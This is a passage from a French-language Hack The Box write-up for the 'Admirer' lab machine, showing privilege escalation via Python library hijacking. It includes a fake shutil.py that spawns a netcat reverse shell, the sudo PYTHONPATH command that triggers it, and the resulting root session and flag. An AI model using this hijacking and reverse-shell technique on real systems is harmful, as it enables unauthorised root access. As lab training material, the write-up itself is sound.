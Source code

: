 aldo@admirer:~$ mkdir fakelib
waldo@admirer:~$ cd fakelib/
waldo@admirer:~/fakelib$ nano shutil.py
waldo@admirer:~/fakelib$ cat shutil.py 
import os

def make_archive(a, b, c):
    os.system("nc 10.10.14.100 1234 -e '/bin/sh'")
~~~

Dans un autre terminal ouvrir netcat a l'écoute sur le port 1234: `nc -nlvp 1234`

Lancer le script admin_tasks.sh, choisir l'option 6 pour appeler backup.py

~~~
waldo@admirer:~/fakelib$ sudo PYTHONPATH=~/fakelib /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
05) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:~/fakelib$ 
~~~

Dans netcat:

~~~
root@Host-001:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.100] from (UNKNOWN) [10.10.10.187] 55414
id
uid=0(root) gid=0(root) groups=0(root)
python -c "import pty; pty.spawn('/bin/bash')"
root@admirer:/home/waldo/fakelib# ls
ls
shutil.py
root@admirer:/home/waldo/fakelib# cd /root
cd /root
root@admirer:~# ls
ls
root.txt
root@admirer:~# cat root.txt
cat root.txt
79755c784590c99f6bd12f91c1104315
root@admirer:~# 
~~~

**Poursuivez avec :** 

[- HTB - Magic](https://0xss0rz.github.io/2020-08-24-HTB-Magic/)

[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
~~~